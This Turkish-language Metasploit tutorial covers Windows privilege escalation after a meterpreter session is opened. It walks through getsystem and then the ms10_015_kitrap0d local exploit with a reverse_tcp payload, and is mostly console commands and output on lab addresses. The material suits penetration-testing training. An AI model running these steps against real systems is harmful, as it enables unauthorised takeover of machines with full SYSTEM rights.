 ```yaml
---
draft: false
title: MSF Yetki Yükseltme
linkTitle: Yetki Yükseltme
translationKey: msf-privilage-escalation
weight: 240
date: 2017-05-25T13:16:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Bu yazıda, yetki yükseltme olarak ifade edilen Privilege Escalation kavramı inceleyeceğiz.
url: /tr/msf-yetki-yukseltme/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## Ya sonra?

Bir sistemin zafiyetini bulmak için gerekli çalışmaları yaptınız. Açık noktasını buldunuz ve doğru adımları uyguladıktan sonra hedef bilgisayarda bir komut satırı açmayı başardınız. Peki bundan sonra ne yapılmalı?

Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.

Kullandığınız zafiyet ve buna yönelik exploit modülü karşı bilgisayarda oturum açmanıza yaramış olsa bile yetkisiz bir oturum açmış olabilirsiniz. Bu durumda yapabileceğiniz işlemler kısıtlı olacaktır. Böyle durumlar için Metasploit Framework içerisinde bulunan bir kaç alternatif modül bulunmaktadır. bunlardan bir tanesi de `getsystem` komutudur.

## Yetkisiz Oturum

Aşağıdaki örnekte görüldüğü gibi, hedef sistemde `ms10_002_aurora` modülü kullanılarak yetkisiz bir meterpreter oturumu açılmıştır.

```bash
msf exploit(ms10_002_aurora) >
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 3 opened (192.168.1.71:38699 -> 192.168.1.161:4444) at 2010-08-21 13:39:10 -0600

msf exploit(ms10_002_aurora) > sessions -i 3
> Starting interaction with 3...

meterpreter > getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter >
```

## GetSystem

`getsystem` komutunu kullanabilmek için öncelikle `priv` eklentisini sisteme yükleyelim.

```bash
meterpreter > use priv
Loading extension priv...success.
meterpreter >
```

`getsystem -h` komutunda olduğu gibi `-h` parametresini kullandığınızda kullanılabilir seçenekleri görebilirsiniz.

```bash
meterpreter > getsystem -h Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

-h        Help Banner.
-t <opt>  The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)

meterpreter >
```

```getsystem``` komutuna hiçbir parametre vermezseniz, varsayılan olarak tüm ihtimalleri deneyecektir.

```bash
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Yerel Exploit Kullanma

Bazı durumlarda `getsystem` başarısız olur. Aşağıda bunun örneğini görebilirsiniz. `getsystem` başarısız olduğunda oturumu arka plana gönderip, Metasploit Framework içerisindeki diğer exploit modüllerini kullanmak gerekmektedir.

```bash
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter >
```

Yukarıda başarısız olmuş bir `getsystem` komutu çıktısı görülüyor. Şimdi bunu arka plana gönderelim ve kullanılabilir durumdaki yerel exploit modüllerine bakalım.

```bash
meterpreter > background
> Backgrounding session 1...
msf exploit(ms10_002_aurora) > use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit(ms10_002_aurora) >
```

Bu listedeki modüllerden `exploit/windows/local/ms10_015_kitrap0d` modülünü kullanalım.

```bash
msf exploit(ms10_002_aurora) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > set SESSION 1
msf exploit(ms10_015_kitrap0d) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.1.161
msf exploit(ms10_015_kitrap0d) > set LPORT 4443
msf exploit(ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port
Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)
msf exploit(ms10_015_kitrap0d) > exploit

>  Started reverse handler on 192.168.1.161:4443 
>  Launching notepad to host the exploit...
[+]  Process 4048 launched.
>  Reflectively injecting the exploit DLL into 4048...
>  Injecting exploit into 4048 ...
>  Exploit injected. Injecting payload into 4048...
>  Payload injected. Executing exploit...
[+]  Exploit finished, wait for (hopefully privileged) payload execution to complete.
>  Sending stage (769024 bytes) to 192.168.1.71
>  Meterpreter session 2 opened (192.168.1.161:4443 -> 192.168.1.71:49204) at 2014-03-11 11:14:00 -0400
```

Gerekli modül ve payload ayarlarını yaptıktan sonra çalıştırılan exploit, hedef sistemde bir oturum açmayı başarmıştır. Şimdi `getuid` komutunu verdiğimizde `SYSTEM` yetkili bir kullanıcı gibi hareket edilebileceği aşağıda görülmektedir.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
